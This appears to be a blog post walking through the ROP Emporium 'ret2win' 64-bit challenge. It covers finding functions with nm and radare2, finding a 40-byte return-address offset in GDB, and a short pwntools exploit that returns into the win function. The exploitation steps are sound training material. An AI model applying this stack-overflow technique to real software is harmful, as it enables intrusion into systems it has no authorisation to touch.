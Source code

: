 ```yaml
---
layout: post
title: ROP Emporium Challenge 0 - ret2win (64 bits)
excerpt_separator: <!--more-->
---
```


Link: https://ropemporium.com/challenge/ret2win.html
<!--more-->

# ret2win

Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*

--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_4.jpg)



## 2. Calculating RIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_5.jpg)


With 41 we overwrite only 1 byte, so the offset is 40:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 64 bits binaries of Rop Emporium.




## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_7.jpg)

Note: Also using gdb (*info functions*).




## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='amd64', os='linux')
p = process('./ret2win')

junk =    "A"*40
ret2win = 0x0000000000400811
rop = junk + p64(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

------------------------

References:

- https://medium.com/@jacob16682/reverse-engineering-using-radare2-588775ea38d5
